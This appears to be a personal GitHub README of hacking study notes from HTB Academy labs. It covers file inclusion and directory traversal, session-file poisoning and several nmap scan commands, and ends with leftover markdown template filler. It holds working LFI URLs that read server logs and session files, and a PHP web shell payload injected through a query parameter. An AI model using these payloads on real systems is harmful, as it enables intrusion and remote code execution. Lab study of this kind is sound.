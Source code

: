 # Hacking Lessons
Lessons and Tutorials Covered
*
* Directory Traversal (HTB Academy)> File Inclusion / Directory Traversal
* Nmap
*

* Connect to VPN
> sudo openvpn user.ovpn





## File Inclusion / Directory Traversal (HTB Academy)
Often see a parameter like /index.php?page=about. Under the hood, index.php will probably pull header.php, about.php, and footer.php. Since you control the about portion of the request, it may be possible to have the webserver grab other files! Another common place is within languages. If you see ?lang=en; then the website will grab files from the /en/ directory.

* RCE through PHP Session Files
Default page url with php and access to logs
> http://46.101.91.21:32430/index.php?language=/var/log/apache2/access.log

* Cookie retrival and Poison
Get cookie from browser inspector. Then look the cookie up via browser url
> http://46.101.91.21:32430/index.php?language=/var/lib/php/sessions/sess_nvc45a8h12hmm2l2bc1ug3bage
Poison the Cookie 
> http://46.101.91.21:32430/index.php?language=session_poisoning

* Prime the website for code injection
> http://134.209.184.216:32415/index.php?language=<?php system($_GET['cmd']); ?>




## Nmap
nmap -Pn -sC -sV -oA all_tcp -T4 --reason -vvvvvvvvvv -p- IP
nmap -sS -sC -sV -Pn -p- -T4 -A host ip
nmap -sV --script=smb* host ip


* list
  * list

1. list 
2. list 

> Blockquote
> 
`<addr>` inline clode

```javascript
function fancyAlert(arg) {
  if(arg) {
    $.facebox({div:'#foo'})
  }
}
```


- [x] this is a complete item
- [ ] this is an incomplete item
